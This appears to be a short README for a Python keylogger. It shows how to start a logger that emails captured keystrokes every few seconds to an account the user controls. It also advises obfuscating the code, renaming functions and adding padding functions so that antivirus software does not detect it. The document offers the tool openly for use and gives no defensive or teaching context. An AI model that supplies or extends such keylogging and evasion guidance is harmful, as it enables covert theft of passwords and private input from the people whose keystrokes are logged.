 # Keylogger
Send a report of keylogs by email:

```python
keylogger = Keylogger(30, 'email', 'password')
keylogger.start()
```
The first parameter indicates every how many seconds the report will be sent to your email, and then provide an email and password for an account that will send the key logs to itself.
Tool might be detected by antiviruses, this can be circumvented by obfuscating the code, changing the name of the functions, adding padding functions, etc. Be creative!